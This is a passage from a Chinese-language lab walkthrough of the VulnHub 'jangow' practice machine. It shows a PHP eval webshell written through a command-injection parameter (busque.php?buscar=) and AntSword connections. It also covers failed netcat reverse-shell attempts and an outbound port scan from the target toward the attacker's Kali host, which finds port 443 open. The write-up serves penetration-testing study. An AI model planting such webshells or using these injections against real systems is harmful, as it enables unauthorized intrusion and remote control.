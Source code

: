 ![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\15.jpg)

![16](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\16.jpg)

这个流量没出去，不过既然命令可执行，就尝试在本地直接写一个`php`文件，然后再测试

写入是可以的，不过还是不能直接反弹`shell`，则，再写`sh`脚本，也是不行，这个肯定是防火墙之类的端口限制了，需要找到某个端口可以进行流量发送的，之前`nmap`扫描到的`21`和`80`端口试试

也可能是`system`的问题，尝试写入一个新的

```php
<?php @eval($_REQUEST['cmd']);?>
```

在浏览器输入

```shell
busque.php?buscar=echo '<?php @eval($_GET['cmd']);?>' > shell.php
```

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\17.jpg)

## webshell

尝试使用蚁剑等工具进行连接，发现成功，说明可以连接，只是进行端口限制，至于是哪个端口，需要进一步验证

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\18.jpg)

也就是这里不仅是端口，还有函数也进行了限制，现在连接蚁剑的虚拟终端，查看`flag`

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\19.jpg)

测试使用`nc`进行反弹，发现`-e`参数无法使用，并且还是端口问题，无法发出流量

尝试使用`nc`进行测试，也就是在靶机内去连接`kali`中的一些端口进行测试，因为这里`kali`是能连通靶机，主要是靶机连接`kali`的问题

## 测试端口情况

这里以一些常用端口进行测试，如`21,22,23,53,80,111,443`等等，当然也可以进行全端口的测试，只是等待时间有点太长了，这毕竟是打靶，知道方法即可

```shell
nc -zv -w20 192.168.10.2 21 22 23 25 53 80 110 111 135 139 143 443 445 3389 8080 >>result 2>&1
```

执行后，查看`result`，发现有一个端口可能存在连接，因为这里明确说明是拒绝连接，至少说明有流量产生

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\20.jpg)

尝试测试这个端口能否把流量发送到`kali`，也就是测试能否通过这个端口进行通信

在`kali`使用`python`开启一个`http`服务，定位在`443`端口

测试，确定在`443`端口是可以的，其他端口使用`wget`都是无法通信的状态

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\21.jpg)
